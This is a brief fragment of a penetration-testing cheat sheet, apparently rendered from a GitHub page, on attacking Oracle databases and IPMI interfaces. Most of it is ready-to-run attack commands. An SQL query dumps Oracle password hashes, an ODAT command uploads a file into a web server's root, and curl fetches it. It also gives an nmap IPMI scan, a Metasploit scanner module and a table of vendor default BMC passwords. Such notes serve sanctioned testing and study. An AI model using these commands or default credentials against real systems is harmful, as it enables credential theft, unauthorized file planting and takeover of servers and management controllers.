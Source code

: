 ## **Oracle RDBMS - Extract Password Hashes**

```
SQL> select name, password from sys.user$;
```

## **Oracle RDBMS - File Upload**

### Web Servers Default Path

```
/var/html/www           : Linux
C:\inetpub\wwwroot      : Windows

C:\\inetpub\\wwwroot    : Fixed Windows 
```

### Using ODAT

```
./odat.py utlfile -s <IP_ADDRESS> -d <SID> -U <USERNAME> -P <PASSWORD> --sysdba --putFile <WEB_SERVER_PATH> <FileName> ./<FileName>
```

### Accessing the file using cURL

```
curl -X GET http://<IP_ADDRESS>/<FileName>
```

# IPMI

Port 623 - UDP

## NSE for IPMI

```
sudo nmap -sU --script ipmi-version -p 623 <IP_ADDRESS>
```

## IPMI Information Discovery - Metasploit

```
msf6 auxiliary(scanner/ipmi/ipmi_version)
```

IPMI - Default Passwords

| Product | Username | Password |
| --- | --- | --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN | ADMIN |
